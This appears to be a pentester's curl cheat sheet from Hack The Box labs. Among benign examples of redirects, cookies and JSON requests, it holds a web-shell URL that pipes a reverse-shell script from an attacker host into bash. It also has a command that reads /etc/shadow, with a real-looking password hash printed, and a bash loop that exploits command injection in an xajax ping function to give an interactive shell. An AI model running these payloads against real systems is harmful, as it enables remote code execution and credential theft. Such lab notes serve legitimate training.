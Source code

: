 ### Get Reverse Shell

	http://10.129.171.59/templates/protostar/htb.php?pwn=curl 10.10.17.201/reverse_shell.sh | bash

### Get Local File

	curl file:///etc/shadow

```text
floris:$6$yl7KKyGaOhVExlCb$ONJceChbI7srpLlJ/AhCLgESU7E4gXexPVgsJMjvQ0hP.6fwslfwWmD15cuaYs9./Jin4e/4LURPgEBav4iv//:17673:0:99999:7:::
```

### Send Exploit Through Proxy Using -x Flag to See What It's Doing:

Modify source code to run through proxy:

```bash
#!/bin/bash
URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl -x 'http://127.0.0.1:8080' --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Here's how the script works:

	curl
	xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E	// payload
	echo \"BEGIN\";${cmd};echo \"END\"	// echo BEGIN and END between the command we run
	sed -n -e '/BEGIN/,/END/ p'			// it send that to sed and grabs everything between BEGIN and END

### Follow Redirects

	curl L https://www.inlanefreight.com

### Authenticate With Cookie and Send POST Request to Retrieve json Data

	curl -X POST -d '{"search":"flag"}' -H 'Cookie: PHPSESSID=6eaubqoi86fevu4knlpi2cg7e3' -H 'Content-Type: application/json' 'http://<IP>:<port>/search.php'

```text
["flag: HTB{...}"]
```

### Format json Responses

#### Get Raw json

	curl http://<SERVER_IP>:<PORT>/api.php/city/london
